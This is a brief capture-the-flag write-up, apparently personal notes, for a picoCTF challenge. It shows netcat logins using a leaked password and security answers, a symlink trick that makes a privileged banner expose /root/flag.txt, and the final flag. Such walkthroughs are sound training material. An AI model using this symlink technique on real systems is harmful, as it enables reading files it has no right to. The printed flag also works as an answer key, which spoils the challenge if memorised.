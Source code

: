 ```yaml
---
ai_date: '2025-04-27 05:29:00'
ai_summary: Used password from leak to gain a shell, exploited symlink permissions
  to read flag
ai_tags:
- password-leak
- symlink
- permissions
created: 2024-08-08T01:21
updated: 2024-08-08T01:24
---
```


```bash
# First we get the password from the leak
nc tethys.picoctf.net 57925 # My_Passw@rd_@1234
nc tethys.picoctf.net 62276
> My_Passw@rd_@1234
> DEFCON
> John Draper
```

And we have our shell.

However we don't have permissions to read `/root/flag.txt`.
Had to use the hint.

Anyways, we can solve it with symlinks.

```bash
ln -s -T /root/flag.txt banner
```

Disconnect and connect again, and you will get the flag.

```flag
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_68ca8b23}
```